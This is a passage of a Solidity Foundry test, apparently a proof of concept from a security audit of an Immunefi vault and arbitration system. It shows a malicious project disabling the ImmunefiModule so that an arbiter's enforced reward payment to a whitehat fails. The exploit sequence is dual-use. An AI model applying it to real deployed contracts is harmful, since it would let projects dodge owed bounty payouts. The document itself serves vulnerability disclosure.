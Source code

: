 ```sol
            operation: Enum.Operation.Call,
            safeTxGas: 0,
            baseGas: 0,
            gasPrice: 0,
            gasToken: address(0),
            refundReceiver: address(0),
            _nonce: vault.nonce()
        });

        bytes memory disableImmunefiModuleSignature = _signData(vaultSignerPk, disableImmunefiModuleHashData);

        // 2. Malicious project disables the ImmunefiModule since ImmunefiGuard allows **any** transaction on the vault.
        vault.execTransaction(
            address(vault),
            0,
            abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            disableImmunefiModuleSignature
        );

        // 3. Critical issue gets fixed/resolved and protocol owner deactivates emergency shutdown.
        vm.prank(protocolOwner);
        emergencySystem.deactivateEmergencyShutdown();

        // 4. Whitehat approves spending the fee amount for an arbitration.
        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // 5. Whitehat signs request for arbitration
        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        // 6. Whitehat requests arbitration and pays the fee.
        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);

        vm.deal(address(vault), 110 ether);
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);

        // 7. Arbiter enforces sending reward to the whitehat.
        //    The txn fails since the malicious project has disabled ImmunefiModule which results in GS104 error.
        vm.startPrank(arbiter);
        arbitration.enforceSendRewardWhitehat(
            arbitrationId,
            new Rewards.ERC20Reward[](0),
            100 ether,
            vaultDelegate.UNTRUSTED_TARGET_GAS_CAP(),
            true
        );
        vm.stopPrank();
    }
```